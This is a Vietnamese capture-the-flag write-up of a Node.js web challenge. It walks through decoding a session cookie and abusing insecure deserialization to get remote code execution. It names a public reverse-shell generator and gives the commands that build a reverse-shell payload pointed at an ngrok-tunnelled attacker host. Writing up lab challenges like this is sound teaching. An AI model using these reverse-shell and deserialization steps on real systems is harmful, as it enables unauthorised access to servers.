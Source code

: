- tiêu đề : web4

- FUN FACT : okay cuối cùng thì cũng có 1 bài thú vị hehe, và vì là wu nên mình không giải thích các hướng mình đi nha :> 

- trước tiên vào view page đã thấy ối dồi ôi rồi (mu ng* suuuuuu)
![Alt text](<./img/4.1.png>) 

- okay thì mình view cookie bắt được thằng session khá thú vị trông có %3D nên mình đi url decode 

![Alt text](<./img/4.2.png>)

- decode xong lại thấy giống base64 -> tiếp tục :> 

![Alt text](<./img/4.3.png>)

- ohla kiếm được 1 thằng json khá ngon heh thử đổi username thành 'admin' và isAdmin:true thì đúng là web nó welcome admin
- tiếp thử xem có được bỏ qua login không thì web nói éo :>
- mình đã xem wáppalizơ từ trước nên biết web code bằng js 
- ngờ ngợ vì trước mình từng làm 1 bài serialize nodejs và dữ liệu unserialize của nó thật sự khác các ngôn ngữ khác (kiểu như json giống trên kia) 

- hehe mình đi tìm luôn bài viết để đọc thêm :
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/?fbclid=IwAR0_VTpLQDOvIcFVerYF9KpUX9TNsrdnfjbjGJ4r7fE3sXXoxYTZQd83KgE

- okay đúng thật là có lỗi nhé vì mình đọc nhiều hơn 1 bài viết kia và thử kha khá payload nó bắn lỗi tùm lum :> 
- mình bắt được một vài hạn chế của web này 
   + chúng ta không chạy được console.log nên không in được dữ liệu ra màn hình 
   + mình thử curl và con server không hiểu curl luôn :> 
   + vậy chắc là server mới toanh , nên thử ghi lên document root (lúc bắn lỗi mình biết document root con này là /var/www/html) và đương nhiên không được :> 
-> chắc chỉ còn tạo reverse shell thoii 

- okay mình đọc bài hướng dẫn trên kia thì nó chỉ cách tạo rì vợt seo 
- ae tải file https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py 
- chạy lệnh python2 nodejsshell.py yourip yourport 

![Alt text](<./img/4.4.png>)

- hehe vấn đề lại tiếp tục là ip của bạn là lan đâu có public sao con server nó kết nối được :> 
- giờ phải dùng ngrok ae ạ 
- chạy lệnh ./ngrok tcp yourport okay và giờ bạn nhận được 1 cái địa chỉ ip và port public thông về với ip local của bạn
- (đơn giản hiểu là con ngrok nó sẽ tạo 1 ip đứng ở giữa nhận kết nối ngược từ server rồi gửi về iplocal của bạn kiểu man in the middle á)

- chạy lệnh tạo shell với yourip (là cái ip của ngrok cho) yourport (là cái port của ngrok)
- encode base64 xong url đi 

- gửi lên server và nhận lại kết nối tới máy mình đọc file Dockerfile lụm cờ hoi 

#hackerga2101:
- wu của mình chia sẻ là chính và con server khá lag nên kết nối lại ngại lắm kkk ae đọc hiểu thui không có ảnh đoạn sau
- đánh giá thì bài này khá hay mình